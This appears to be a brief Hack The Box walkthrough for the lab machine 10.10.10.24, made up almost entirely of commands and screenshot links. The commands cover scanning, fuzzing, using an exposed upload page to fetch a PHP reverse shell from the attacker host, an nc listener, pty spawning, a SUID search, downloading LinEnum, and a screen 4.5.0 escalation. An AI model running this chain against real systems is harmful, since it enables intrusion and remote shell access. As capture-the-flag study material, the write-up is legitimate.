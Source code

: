 ```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.24
```
![image](https://github.com/regarmulia/HTB/assets/33616880/46735d62-2827-4576-966f-4259541ac585)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.24/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6e89b74-85df-466e-bd99-5779c782bc3e)


```
http://10.10.10.24/exposed.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/835a805c-0ea0-46dd-a17b-da4fad050cd3)


```
http://10.10.14.3/lala.txt -o uploads/lala.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fad0f92d-e6ca-4f6d-8abb-e4c2355198e6)


```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
diff -u php-reverse-shell.php shell.php
```
![image](https://user-images.githubusercontent.com/33616880/232672632-55eefa42-eeca-4a5d-8c7c-78a35e18a674.png)


```
http://10.10.14.3/php-reverse-shell.php -o uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6f90ae46-7da7-4b79-a535-23ff44c610eb)


```
nc -nlvp 1234
http://10.10.10.24/uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/edb8a437-2dc8-44b4-b5b6-6b05fbc7fefe)


```
python3 -c "import pty;pty.spawn('/bin/bash’)
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/14ee2274-fa4e-4a6d-a371-56f5584faf65)


```
OR
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/232672837-a43f9b03-ecb6-4c16-8966-9c8493c37512.png)
![image](https://user-images.githubusercontent.com/33616880/232672832-8c3e1108-d6fe-40e7-b4f0-84dce04e3aea.png)


```
screen 4.5.0
```
![image](https://user-images.githubusercontent.com/33616880/232672860-72151f75-c0e3-46f7-ba0c-22f08b39ec86.png)
